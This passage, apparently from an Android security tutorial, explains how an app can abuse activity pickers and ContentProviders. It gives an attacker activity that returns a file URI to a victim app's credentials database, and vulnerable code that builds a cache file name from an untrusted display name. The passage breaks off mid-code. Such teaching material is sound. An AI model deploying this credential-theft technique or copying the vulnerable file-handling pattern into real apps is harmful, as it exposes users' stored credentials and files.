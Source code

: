 - `PickerActivity.java`

    ```java
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setResult(-1, new Intent().setData(Uri.parse("file:///data/data/com.victim/databases/credentials")));
        finish();
    }
    ```

When a victim clicks on the attacker's app in the activity picker list, the `/data/data/com.victim/databases/credentials` file is automatically copied to SD card and can be read by any app with the `android.permission.READ_EXTERNAL_STORAGE` permission.

#### Arbitrary file writing

Assume, an app obtains the `content` URI and caches files from a ContentProvider to a temporary directory, the vulnerable app could look as follows:

```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    startActivityForResult(new Intent(Intent.ACTION_PICK), 1337);
}
protected void onActivityResult(int requestCode, int resultCode, Intent data) {
    super.onActivityResult(requestCode, resultCode, data);
    if(requestCode != 1337 || resultCode != -1 || data == null || data.getData() == null) {
        return;
    }
    Uri pickedUri = data.getData();
    File pickedFile;
    if("file".equals(pickedUri.getScheme())) {
        pickedFile = new File(pickedUri.getPath());
    }
    else if("content".equals(pickedUri.getScheme())) {
        pickedFile = new File(getCacheDir(), getFileName(pickedUri));
        copy(pickedUri, pickedFile);
    }
    // do something with the file
}
private String getFileName(Uri pickedUri) {
    Cursor cursor = getContentResolver().query(pickedUri, new String[]{MediaStore.MediaColumns.DISPLAY_NAME}, null, null, null);
    if(cursor != null && cursor.moveToFirst()) {
        String displayName = cursor.getString(cursor.getColumnIndex(MediaStore.MediaColumns.DISPLAY_NAME));
        if(displayName != null) {
            return displayName;
        }
    }
    return "temp";
}
private void copy(Uri uri, File toFile) {
    try {
        InputStream inputStream = getContentResolver().openInputStream(uri);
        OutputStream outputStream = new FileOutputStream(toFile);
        copy(inputStream, outputStream);
    }
    catch (Throwable th) {
        // error handling
    }
}
public static void copy(InputStream inputStream, OutputStream outputStream) throws IOException {
    byte[] bArr = new byte[65536];
    while (true) {
```
